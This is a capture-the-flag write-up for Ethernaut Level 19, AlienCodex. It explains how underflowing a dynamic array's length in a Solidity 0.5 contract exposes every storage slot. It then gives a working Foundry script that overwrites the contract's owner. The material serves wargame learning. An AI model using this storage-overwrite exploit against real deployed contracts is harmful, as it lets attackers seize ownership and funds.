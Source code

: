 # Ethernaut Level 19 AlienCodex

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

We have to claim ownership of the contract to pass the game. Since it is a `Ownable`, so there will be a `address public owner` in the storage layout, though it is not explicitly written in the code. So the declaration order of the storage layout is: `owner`, `contact`, `codex`. Since `address` typically takes 20 bytes and `bool` takes 1 byte, `owner` and `contact` are going to be packed in slot 0, where `owner` takes last 20 bytes and `contact` takes the 1 byte on the **left**. 

For `bytes32[] public codex`, since it is an array with *dynamic* storage length, the storage strategy follows a specific  pattern: the first 32-bytes slot (in this case slot 1) will store the **length** of the array. Then the first element in the array (codex[0]) will be stored at: 

```solidity
p = uint256(keccak256(abi.encode(SLOT_INDEX_OF_CODEX_LENGTH)))
```

p is the starting slot index of array's elements. Now the storage layout looks like this:

```
 ---- Storage ---

slot 0 -> owner (20 bytes), contact (1 byte)
slot 1 -> length of codex, which first elements is at 'p' = keccak256(1)
'
'
'
'
slot p -> codex[0]
slot p + 1 -> codex[1]
'
'
slot p + n -> codex[n]
```

Note that the contract is using `pragma solidity ^0.5.0`, which still allows underflow & overflow, we can somehow use function `retract()` to reduce the length of codex to cause an *underflow* (length of `codex` will now be `2^256 - 1`), then we can access all the possible storage slots with `codex` index, including slot 0. All we have to do then is to calculate that index representing slot 0. We can now show the storage layout again:

```
---- Storage ---

slot 0 -> owner (20 bytes), contact (1 byte) -> codex[2^256 - p]
slot 1 -> length of codex, which first elements is at 'p' = keccak256(1) -> codex[2^256 - p + 1]
'
'
'
'
slot p -> codex[0]
slot p + 1 -> codex[1]
'
'
slot p + (2^256 - p - 1) -> codex[2^256 - p - 1]
```

We can see that the index `i` can meet the condition: `p + i ≡ 0 mod 2^256`. So `i` is `2^256 - p`.

`AlienCodex.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {IAlienCodex} from "../src/IAlienCodex.sol";

contract AlienCodexScript is Script {
    IAlienCodex alienCodex = IAlienCodex(0xXXXXXXXXX);
    uint256 constant SLOT_INDEX_OF_CODEX_LENGTH = 1;
    uint256 slotIndexOfCodexFirstElement = uint256(keccak256(abi.encode(SLOT_INDEX_OF_CODEX_LENGTH)));
    // index i such that: p + i ≡ 0 mod 2^256 → i ≡ 2^256 − p
    uint256 indexToOverwriteOwner = type(uint256).max - slotIndexOfCodexFirstElement + 1;

    function run() external {
        vm.startBroadcast();
        console.log("Original owner:", alienCodex.owner());
        alienCodex.makeContact();
        alienCodex.retract(); // overflows the array length to 2**256 - 1
        alienCodex.revise(indexToOverwriteOwner, bytes32(uint256(uint160(msg.sender))));
        console.log("New owner:", alienCodex.owner());
        vm.stopBroadcast();
    }
}
```

In order to use `0.8.0` compiler, we don't include original code in our project. Instead, we use an interface:

`IAlienCodex.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlienCodex {
    function owner() external view returns (address);
    function makeContact() external;
    function record(bytes32 _content) external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}
```

